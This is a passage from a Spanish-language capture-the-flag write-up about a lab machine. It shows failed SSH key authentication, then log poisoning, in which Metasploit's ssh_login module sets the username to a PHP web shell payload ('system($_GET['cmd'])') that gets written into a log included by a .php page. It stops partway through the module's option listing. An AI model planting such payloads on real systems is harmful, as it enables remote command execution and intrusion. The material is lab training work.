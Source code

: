 Para intentar conectarnos por SSH podemos utilizar el mismo comando `ssh` pero con este formato.
```text
ssh -6 [login_other_comp]@fe80....%[interface_lan_name]
```

Y vemos que podemos intentar conectarnos, pero no tenemos la clave privada, además, como método de autenticación, aparentemente solo se admite la autenticación por clave privada.
```console
ssh -6 test@fe80::20c:29ff:fe30:13a0%eth0
The authenticity of host 'fe80::20c:29ff:fe30:13a0%eth0 (fe80::20c:29ff:fe30:13a0%eth0)' can't be established.
ED25519 key fingerprint is SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'fe80::20c:29ff:fe30:13a0%eth0' (ED25519) to the list of known hosts.
test@fe80::20c:29ff:fe30:13a0%eth0: Permission denied (publickey).
```

# Log Poisoning 2 RCE -> Foothold
Sin embargo, en el monitor de eventos que hemos encontrado antes, podemos ver que vemos el log de SSH... Por lo cual esto podríamos escalarlo a ejecución remota de comandos a través del típico `Log Poisoning` ya que el archivo que está cargando estos logs tiene la extensión `.php`
![Write-up Image](images/Screenshot_10.png)

Esto no lo podemos hacer mediante el comando `ssh` ya que hace tiempo se añadió un filtro de caracteres especiales, este filtro solo existe en el cliente por lo cual si al servidor le llega una solicitud con un nombre de usuario que contenga caracteres especiales la va a procesar igualmente.

Para hacer esto, podemos hacer uso de [este módulo de metasploit](https://www.offsec.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/) y así saltarnos este filtro de caracteres.


> [!NOTE]
> La dirección MAC de la máquina víctima cambió ya que tuve un par de errores al hacer el Log Posioning y tuve que reinstalar la máquina

```console
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME <?php system($_GET["cmd"]); ?>
USERNAME => <?php system($_GET[cmd]); ?>
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD loquesea
PASSWORD => loquesea
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS fe80::20c:29ff:fe83:8fd5%eth0
RHOSTS => fe80::20c:29ff:fe83:8fd5%eth0
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting                Required  Description
   ----              ---------------                --------  -----------
   ANONYMOUS_LOGIN   false                          yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                          no        Try blank passwords for all users
```
